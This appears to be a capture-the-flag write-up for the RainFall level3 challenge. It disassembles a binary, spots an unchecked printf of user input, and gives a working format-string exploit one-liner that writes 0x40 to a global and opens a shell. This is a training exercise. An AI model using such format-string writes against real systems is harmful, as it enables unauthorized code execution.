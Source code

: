 We start this level by looking at our executable with gdb:
```bash
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:     push   %ebp
   0x0804851b <+1>:     mov    %esp,%ebp
   0x0804851d <+3>:     and    $0xfffffff0,%esp
   0x08048520 <+6>:     call   0x80484a4 <v>
   0x08048525 <+11>:    leave
   0x08048526 <+12>:    ret
End of assembler dump.
```

We notice a `v()` function, let's have a look at it with `radare2`:
```bash
[0x080483f0]> pdf @ sym.v
            ; CALL XREF from sub.main_804851a @ 0x8048520(x)
┌ 118: sym.v ();
│ afv: vars(4:sp[0x20c..0x218])
│           0x080484a4      55             push ebp
│           0x080484a5      89e5           mov ebp, esp
│           0x080484a7      81ec18020000   sub esp, 0x218
│           0x080484ad      a160980408     mov eax, dword [obj.stdin]  ; obj.stdin__GLIBC_2.0
│                                                                      ; [0x8049860:4]=0
│           0x080484b2      89442408       mov dword [nitems], eax     ; FILE *stream
│           0x080484b6      c744240400..   mov dword [size], 0x200     ; [0x200:4]=-1 ; 512 ; int size
│           0x080484be      8d85f8fdffff   lea eax, [format]
│           0x080484c4      890424         mov dword [esp], eax        ; char *s
│           0x080484c7      e8d4feffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│           0x080484cc      8d85f8fdffff   lea eax, [format]
│           0x080484d2      890424         mov dword [esp], eax        ; const char *format
│           0x080484d5      e8b6feffff     call sym.imp.printf         ; int printf(const char *format)
│           0x080484da      a18c980408     mov eax, dword [obj.m]      ; [0x804988c:4]=0
│           0x080484df      83f840         cmp eax, 0x40               ; '@' ; 64
│       ┌─< 0x080484e2      7534           jne 0x8048518
│       │   0x080484e4      a180980408     mov eax, dword [obj.stdout] ; obj.stdout__GLIBC_2.0
│       │                                                              ; [0x8049880:4]=0
│       │   0x080484e9      89c2           mov edx, eax
│       │   0x080484eb      b800860408     mov eax, str.Wait_what___n  ; 0x8048600 ; "Wait what?!\n"
│       │   0x080484f0      8954240c       mov dword [stream], edx     ; FILE *stream
│       │   0x080484f4      c74424080c..   mov dword [nitems], 0xc     ; [0xc:4]=-1 ; 12 ; size_t nitems
│       │   0x080484fc      c744240401..   mov dword [size], 1         ; size_t size
│       │   0x08048504      890424         mov dword [esp], eax        ; const void *ptr
│       │   0x08048507      e8a4feffff     call sym.imp.fwrite         ; size_t fwrite(const void *ptr, size_t size, size_t nitems, FILE *stream)
│       │   0x0804850c      c704240d86..   mov dword [esp], str._bin_sh ; [0x804860d:4]=0x6e69622f ; "/bin/sh" ; const char *string
│       │   0x08048513      e8a8feffff     call sym.imp.system         ; int system(const char *string)
│       │   ; CODE XREF from sym.v @ 0x80484e2(x)
│       └─> 0x08048518      c9             leave
└           0x08048519      c3             ret
```

This shows us a system call executing `/bin/sh`that we're going to try to exploit.
We are going to start by exploiting `printf`:
```bash
level3@RainFall:~$ ./level3
AAAA %x %x %x %x %x
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520
```

With this return we can deduce that our input is **stored in the 4th position relative to the first outputed %x**.

We know that the comparison goes like this:
```bash
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
```

So let's create a script using printf's **string formatting** to write **0x40 at the wanted address**
```bash
(python -c 'print "\x8c\x98\x04\x08" + "%60c%4$n"' && cat) | ./level3
```
- `print "\x8c\x98\x04\x08"` -> It places the address `0x0804988c` on the stack followed by a format string that prints 60 characters (using `%60c`) to prepare the exact number of bytes for the write operation.
- `"%60c%4$n"` -> Take the 4th argument from the stack, interpret it as a pointer, and write the number of characters printed so far into that pointer.

And we get our next flag !